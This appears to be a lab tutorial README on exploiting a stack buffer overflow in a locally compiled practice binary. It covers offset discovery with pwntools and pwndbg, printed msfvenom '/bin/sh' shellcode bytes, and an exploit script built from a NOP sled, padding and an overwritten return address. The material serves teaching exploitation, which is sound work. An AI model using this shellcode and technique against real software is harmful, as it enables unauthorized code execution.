


# Basic Buffer Overflow exploitation

## Requirements

- pwntools

    ```bash
    sudo apt-get update
    sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
    sudo apt-get install python3-pwntools
    ```

- pwndbg

    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg
    ./setup.sh
    ```

- Disable ASLR

    ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```

### x64?

- In case you are running a x64 OS, you will need 32-bit development headers and libraries

    ```bash
    sudo apt-get install gcc-multilib
    ```

## Demo time!

### Get the offset

0. Compile the binary and check there is a BoF

```bash
make vuln
./vuln $(python3 -c 'print("A"*1000)')
```
> You should get a segmentation fault!


1. Run pwndbg and use pwntools cyclic function to get the register info

```bash
pwndbg ./vuln
run $(python3 -c 'from pwn import *; print(cyclic(500))')
```
> Check the stack + registers. The stack was smashed!

```bash
x/300x $esp
info registers
```

2. Capture the %eip value after crash

```txt
0x61646361
```

3. Get the offset related to the %eip captured with `cyclic` bin

```bash
pwndbg> cyclic -l 0x61646361
Finding cyclic pattern of 4 bytes: b'acda' (hex: 0x61636461)
Found at offset 210
```

4. Check the offset works as expected with a custom payload

```bash
run $(python3 -c 'from pwn import *; import sys; print("A"*210 + "B"*4)')
```

> Invalid address 0x8004242

As we can see, there is some issue with the aligment, we need to add 2 bytes to control the EIP effectively 

```bash
break vuln # Add a breakpoint in the vuln function
run $(python3 -c 'from pwn import *; import sys; print("A"*212 + "B"*4)')
n # Run one step to execute the strcpy function
x/300x $esp
info registers
```
> As you can see, the stack is smashed correctly



Let's finish the execution! The program will crash for sure, we just need to verify the %eip register confirm we have control of %eip register

```bash
c
info registers
```
> %eip -> `0x42424242`

## Generate the shellcode!

Let's generate a shellcode compatible with our architecture

> Note: NULL -> \x00 | NewLine -> \x0a | Carriage Return ->\x0d | Space -> \x20

```bash
$ msfvenom -p linux/x86/exec CMD='/bin/sh' -b "\x00\x0a\x0d\x20" -f python

...

Payload size: 70 bytes
Final size of python file: 357 bytes
```

```python
buf =  b""
buf += b"\xba\x13\xc0\x5c\xd1\xdb\xca\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x0b\x31\x56\x15\x03\x56\x15\x83\xee"
buf += b"\xfc\xe2\xe6\xaa\x57\x89\x91\x79\x0e\x41\x8c\x1e"
buf += b"\x47\x76\xa6\xcf\x24\x11\x36\x78\xe4\x83\x5f\x16"
buf += b"\x73\xa0\xcd\x0e\x8b\x27\xf1\xce\xa3\x45\x98\xa0"
buf += b"\x94\xfa\x32\x3d\xbc\xaf\x4b\xdc\x8f\xd0"
```
> The shellcode requires 70 bytes, it will fit inside our 212 offset


## Write the exploit

Follow the template to build the exploit. Create a new `exploit.py` with the content:

```python
import sys

# 70 Bytes de shellcode (buff)
buf =  b""

# Insert the shellcode here!

offset = 212            # Offset obtained at the beginning
nops = b"\x90" * 100    # Add some NOPs to secure the execution
padding = b"\x41" * 42  # padding = Offset - NOPS - Shellcode (212-100-70 = 42)

payload = nops + buf + padding

sys.stdout.buffer.write(payload)
```

Now, run the exploit in GDB adding a stopping the execution just after the stack is smashed with `strcpy`. We will check the stack to find an address to override the %eip and redirect the execution to the NOPs area.

```bash
gdb ./vuln
break vuln
run $(python3 exploit.py)
break *0x80491c7 # Break at the RET from VUln
c
x/300x $esp # Look for the x90 block (should be in the stack as is passed as a parameter)
```

> 0xffffd12c -> %eip



Finish the exploit by overwriting the return address

```python
# 0xffffd12c EN little endian
eip = b"\x2c\xd1\xff\xff"  # Adjust with real val
payload = nops + buf + padding + eip
sys.stdout.buffer.write(payload)
```

## Run the exploit
./vuln $(python3 solution_exploit.py)

Check the [solution file](./solution_exploit.py)

## Cleanup

- Don't forget to reenable the ASLR

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
